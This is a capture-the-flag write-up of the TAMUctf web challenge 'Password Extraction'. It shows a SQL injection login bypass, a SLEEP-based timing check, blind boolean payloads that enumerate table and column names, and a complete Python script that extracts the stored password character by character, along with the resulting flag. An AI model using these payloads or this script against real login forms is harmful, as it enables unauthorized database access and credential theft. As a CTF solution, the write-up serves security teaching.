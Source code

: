 ## Password Extraction
### Category : Web

So, we are given a web link. http://passwordextraction.tamuctf.com

On visiting the link, we find a simple login page. As usual tested for SQLi  where username was `'or 1=1-- ` and login success. But! we have a message `You've successfully authorized, but that doesn't get you the password.` So, clearly this is a Boolean Injection challenge. For confirmation I try, `' or SLEEP(5)-- ` and as expected it takes time to login. 

Using substring technique, we brute force each character. First we find the table name using the payload 
```
' or ascii(substring((select concat(table_name) from information_schema.tables where table_schema=database() ​limit 0,1),1,1))=val` where val is the ascii of all printable characters.
```

We find the table name as `accounts`

Next we iterate over to find the column names 
```
' or ASCII(SUBSTRING((SELECT concat(column_name) FROM information_schema.columns where table_name=0x6163636f756e7473 LIMIT 0,1),{},{}))={}".format(j,j,ord(i))
```

and we find the two column names : `username` and `password`, Big surprise.

As the challenge name suggests its a password extraction challenge, we run the script over to find the password and find the flag. 

Output :
```
g
gi
gig
gige
gigem
gigem{
gigem{h
gigem{h0
gigem{h0p
gigem{h0pe
gigem{h0peY
gigem{h0peYo
gigem{h0peYou
gigem{h0peYouS
gigem{h0peYouSc
gigem{h0peYouScr
gigem{h0peYouScr1
gigem{h0peYouScr1p
gigem{h0peYouScr1pt
gigem{h0peYouScr1pte
gigem{h0peYouScr1pted
gigem{h0peYouScr1ptedT
gigem{h0peYouScr1ptedTh
gigem{h0peYouScr1ptedTh1
gigem{h0peYouScr1ptedTh1s
gigem{h0peYouScr1ptedTh1s}
```

Script :
```
#! /usr/bin/python3
import requests
import string

def inject(cmd):
    url = "http://passwordextraction.tamuctf.com/login.php"
    data = {"username":"' {}-- ".format(cmd),"password":"leetcode"}
    #print(data)
    r = requests.post(url,data=data)
    valid = "You've successfully authorized, but that doesn't get you the password."
    if(valid in r.text):
        return True
    else:
        return False

#cmd = "or ASCII(SUBSTRING((SELECT concat(column_name) FROM information_schema.columns where table_name=0x6163636f756e7473 LIMIT 0,1),{},{}))={}".format(j,j,ord(i))
table="accounts"
column_1="username"
column_2="password"

if __name__=="__main__":
    TABLE=""
    for j in range(1,30):
        for i in string.printable:
            print(TABLE+i,end="\r")
            cmd = "or ASCII(SUBSTRING((SELECT concat(password) from accounts  LIMIT 0,1),{},{}))={}".format(j,j,ord(i))
            if(inject(cmd)):
                TABLE+=i
                print(TABLE)
                break

print(TABLE)
```